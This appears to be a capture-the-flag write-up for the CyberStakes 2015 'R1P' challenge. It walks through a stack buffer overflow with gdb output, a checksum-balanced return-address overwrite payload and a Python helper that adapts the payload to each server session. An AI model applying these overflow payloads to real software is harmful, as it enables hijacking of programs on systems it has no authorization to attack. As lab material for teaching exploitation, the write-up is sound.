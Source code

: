 ## R1P [150]

## Solution
`scp` the binary from the server for local analysis without time constraints (server will kill your SSH session after 15 minutes). Note that the flag file `flag` must be more than `0x35` (53) characters or it will fail the `check_flag()` function:
```
ameise@STAHLKERN:~/CS2015/pwn/150_R1P$ scp -P 58476 captain@shell.cyberstakesonline.com:/bomb/r1p r1p  
ameise@STAHLKERN:~/CS2015/pwn/150_R1P$ ls
r1p
ameise@STAHLKERN:~/CS2015/pwn/150_R1P$ echo -n this_is_the_flag > flag
ameise@STAHLKERN:~/CS2015/pwn/150_R1P$ ./r1p 
Key is too short
ameise@STAHLKERN:~/CS2015/pwn/150_R1P$ python -c 'print "flag: " + "z"*55' > flag
ameise@STAHLKERN:~/CS2015/pwn/150_R1P$ ./r1p 
Enter launch code: 
aaaaa
INVALID LAUNCH CODE
```

Now we can use IDA pro and `gdb` to examine the binary without time constraints. This will also not work well on the CyberStakes server because it will fail to open `./flag` if you run `r1p` within `gdb` (incorrect permissions). The function `validate_code()` ensures that the sum of all of the key bytes is `0x00` with a start at `0x2b`. This can be decompiled to the following C code:
```C
void validate_code(char* buffer) {
  
  char c = 0x2b;
  
  i = 0;
  while(buffer[i]) {
    
    c += buffer[i];
    i++;
  }
  
  if (c) die();
}
```

We can solve this in the exact same way as [R0P](../130_R0P) by overwriting the return address of `vulnerable_function()` with the address of `call_first()` and the address of `call_second()` directly afterward. First we need to figure out the distance between the top of the buffer and the return address on `vulnerable_function()`'s stack:
```
ameise@STAHLKERN:~/CS2015/pwn/150_R1P$ gdb ./r1p 
Reading symbols from ./r1p...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
   0x0804890b <+0>:	    lea    ecx,[esp+0x4]
   0x0804890f <+4>:	    and    esp,0xfffffff0
   0x08048912 <+7>:	    push   DWORD PTR [ecx-0x4]
   0x08048915 <+10>:	push   ebp
   0x08048916 <+11>:	mov    ebp,esp
   0x08048918 <+13>:	push   ecx
   0x08048919 <+14>:	sub    esp,0x4
   0x0804891c <+17>:	call   0x8048728 <check_flag>
   0x08048921 <+22>:	call   0x8048863 <vulnerable_function>
   0x08048926 <+27>:	sub    esp,0x4
   0x08048929 <+30>:	push   0xd
   0x0804892b <+32>:	push   0x8048a7c
   0x08048930 <+37>:	push   0x1
   0x08048932 <+39>:	call   0x80484a0 <write@plt>
   0x08048937 <+44>:	add    esp,0x10
   0x0804893a <+47>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x0804893d <+50>:	leave  
   0x0804893e <+51>:	lea    esp,[ecx-0x4]
   0x08048941 <+54>:	ret    
End of assembler dump.
```

The return address pushed onto the stack during the call to `vulnerable_function()` will be `0x08048926`. Now we can set breakpoints in `vulnerable_function()` to find the addresses of the return address and `buffer[]` on the stack:
```
(gdb) disas vulnerable_function 
Dump of assembler code for function vulnerable_function:
   0x08048863 <+0>:	    push   ebp
   0x08048864 <+1>:	    mov    ebp,esp
   0x08048866 <+3>:	    sub    esp,0x48
   [...]
   0x080488fa <+151>:	sub    esp,0xc
   0x080488fd <+154>:	lea    eax,[ebp-0x38]
   0x08048900 <+157>:	push   eax
   0x08048901 <+158>:	call   0x80487dc <validate_code>
   0x08048906 <+163>:	add    esp,0x10
   0x08048909 <+166>:	leave  
   0x0804890a <+167>:	ret    
End of assembler dump.
(gdb) break *0x08048863
Breakpoint 1 at 0x8048863
(gdb) break *0x08048901
Breakpoint 2 at 0x8048901
(gdb) run
Starting program: /home/ameise/CS2015/pwn/150_R1P/r1p 

Breakpoint 1, 0x08048863 in vulnerable_function ()
(gdb) x/1xw $esp
0xffffceec:	0x08048926
(gdb) c
Continuing.
Enter launch code: 
aaaabbbbccccdddd

Breakpoint 2, 0x08048901 in vulnerable_function ()
(gdb) p/x $eax
$1 = 0xffffceb0
(gdb) x/s 0xffffceb0
0xffffceb0:	"aaaabbbbccccdddd"
```

The return address is at `0xffffceec` and the buffer start is at `0xffffceb0`. Therefore, we must pad `0x3c` (60) bytes before overwriting the return address with the addresses of `call_first()` and `call_second()`:
```
python -c 'print "a"*60 + "\x78\x86\x04\x08" + "\xbb\x85\x04\x08"'
```

However, the sum of the entire payload needs to be `0x00` with a starting value of `0x2b`. We can do this in Python:
```
ameise@STAHLKERN:~/CS2015/pwn/150_R1P$ python
Python 2.7.12 (default, Jul  1 2016, 15:12:24) 
[GCC 5.4.0 20160609] on linux2
>>> payload = "a"*60 + "\x78\x86\x04\x08" + "\xbb\x85\x04\x08"
>>> sum = 0
>>> for c in payload:
...   sum += ord(c)
... 
>>> 256 - (sum % 256)
238
>>> 256 - ((0x2b + sum) % 256)
195
>>> chr(195)
'\xc3'
```

Now we have our full payload, which will work on our local copy:
```
ameise@STAHLKERN:~/CS2015/pwn/150_R1P$ python -c 'print "a"*60 + "\x78\x86\x04\x08" + "\xbb\x85\x04\x08" + "\xc3"' | ./r1p 
Enter launch code: 
Launch code accepted, processing...
Loading first half of key...
Your key is: flag: zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz
Segmentation fault (core dumped)
```

However, the server binary changes every time you log into a new SSH session. The two things that change are the size of `buffer[]` in `vulnerable_function()` and the start byte in `validate_code()`. We can use our knowledge of the distance between the start of `buffer[]` and the target return address in our *local copy* to make a Python script that allows us to calculate the new payload on-the-fly (in the local copy, the function prologue of `vulnerable_function()` subtracted `0x48` bytes from the stack pointer `esp`, yielding a distance of 60 bytes between the start of `buffer[]` and the return address on `vulnerable_function()`'s stack:
```Python
# local test case data
test_distance = 60 # distance between buffer[] and return address
test_bufferstart = 0x48 # [ebp-0x38]

# constants
addr_call_first = "\x78\x86\x04\x08"
addr_call_second = "\xbb\x85\x04\x08"

# live session
BUFFERSTART = ???
STARTBYTE = ???

distance = 60 - (test_bufferstart - BUFFERSTART)

payload = ""
payload += "a"*distance
payload += addr_call_first
payload += addr_call_second

s = STARTBYTE
for c in payload:
  s += ord(c)

print "Padding: " + str(distance)
print "End Byte: " + hex(ord(chr(256 - (s % 256))))
```

Logging into an actual SSH session on the CyberStakes server, we open the binary up in `gdb` to see what the new values are:
```
(gdb) disas vulnerable_function 
Dump of assembler code for function vulnerable_function:
   0x08048863 <+0>:	    push   ebp
   0x08048864 <+1>:	    mov    ebp,esp
   0x08048866 <+3>:	    sub    esp,0x68                         <new stack pointer subtraction 0x68 (compared to 0x48 in local copy)
   0x08048869 <+6>:	    mov    DWORD PTR ds:0x804a068,0x0
   0x08048873 <+16>:	sub    esp,0xc
   0x08048876 <+19>:	push   0x8048a68
   [...]
End of assembler dump.
(gdb) disas validate_code 
Dump of assembler code for function validate_code:
   0x080487dc <+0>:	    push   ebp
   0x080487dd <+1>:	    mov    ebp,esp
   0x080487df <+3>:	    sub    esp,0x18
   0x080487e2 <+6>:	    mov    BYTE PTR [ebp-0x9],0x64          <=== new checksum offset 0x64 (compared to 0x2b in local copy)
   0x080487e6 <+10>:	mov    DWORD PTR ds:0x804a068,0x0
   0x080487f0 <+20>:	jmp    0x8048815 <validate_code+57>
   [...]
End of assembler dump.
(gdb) quit
```

Replacing the values `BUFFERSTART` and `STARTBYTE` in [calc.py](calc.py) gives us:
```
ameise@STAHLKERN:~/CS2015/pwn/150_R1P$ python calc.py 
Padding: 92
End Byte: 0x6a
```

Now we have our correctly formatted payload for the binary in this particular SSH session:
```
captain@5a093799d1c8[00:10:59]:/bomb$ python -c 'print "a"*92 + "\x78\x86\x04\x08" + "\xbb\x85\x04\x08" + "\x6a"' | ./r1p
Enter launch code: 
Launch code accepted, processing...
Loading first half of key...
Your key is: all_your_base_pointer_6696186e870135295f95dfab8e4318bb
zsh: done                python -c 'print "a"*92 + "\x78\x86\x04\x08" + "\xbb\x85\x04\x08" + "\x6a"' | 
zsh: segmentation fault  ./r1p
```